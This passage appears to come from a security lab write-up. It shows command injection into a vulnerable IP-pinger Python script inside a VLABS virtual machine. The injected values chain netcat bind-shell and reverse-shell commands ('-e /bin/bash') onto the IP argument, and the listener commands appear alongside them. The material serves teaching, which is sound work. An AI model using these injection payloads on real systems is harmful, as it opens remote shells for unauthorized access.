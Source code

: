 Now we are able to begin a Bind Shell, which sets up a listening port on our victim machine and gets the attack machine to connect to it. In this lab, this is executed through having two tabs open of a Terminal in the VLABS virtual machine, however in the real world - you would probably be working across two different machines.\\

On the target machine:
\begin{verbatim}
    python3 IP-pinger.py 8.8.8.8 && ncat -lvnp 4444 -e /bin/bash 
\end{verbatim}
The \verb|ncat -lvnp 4444| tells the \verb|ncat| software to listen on port 4444 for connections. We connect to port 4444 from the attack machine:
\begin{verbatim}
    ncat 192.168.1.1 4444
\end{verbatim}

Alternatively, we are able to use a Reverse Shell, where the target machine connects to the attack machine. On the attack machine, we specify the port to listen on:
\begin{verbatim}
    nc -lvnp 4443
\end{verbatim}
Then on the server we launch the Vulnerable IP Pinger program and connect to our attack machine:
\begin{verbatim}
    python3 IP-pinger.py 8.8.8.8 && nc 192.168.1.1 4443 -e /bin/bash
\end{verbatim}

TBC
